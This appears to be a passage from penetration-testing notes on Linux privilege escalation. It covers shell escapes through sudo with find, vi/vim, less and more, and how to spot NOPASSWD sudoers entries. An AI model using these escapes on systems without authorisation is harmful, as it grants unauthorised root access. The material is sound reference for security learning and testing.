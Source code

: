 After finding binaries with SUID or other possible root permissions, you can search this site for privilege escalation methods.

You can also find a similar project for Windows at [LOLBAS](https://lolbas-project.github.io/).

#### Examples:

Privilege Escalation to Root with `find`:&#x20;

```bash
sudo find /etc -exec sh -i \;
```

Execute any command while in `less`:&#x20;

```bash
!$command
```

Escalate to root shell if your user can `sudo` any of these text editors:

```bash
#vi
1. [user@localhost]$ sudo vi
2. :shell
3. [root@localhost]#
#-or-
sudo vim -c '!sh'
#-or
sudo -u root vim -c '!sh'

#less
1. [user@localhost]$ sudo less file.txt
2. !bash
3. [root@localhost]#

#more
1. [user@localhost]$ sudo more long_file.txt
2. !bash
3. [root@localhost]#
#Note: for the 'more' method to work, the attacker has to read a file 
#that is longer than one terminal screen high
```

## Sudo

The `sudo` command allows non-root users to run commands that would normally require super user privileges.  Its configuration file is `/etc/sudoers` and lists user's permissions while using `sudo`.&#x20;

### NOPASSWD

A `sudo` configuration that allows a user to execute specified commands with another user privileges without knowing the password.

```bash
$ sudo -l

User zweilos may run the following commands on kali:
    (root) NOPASSWD: /usr/bin/vim
```
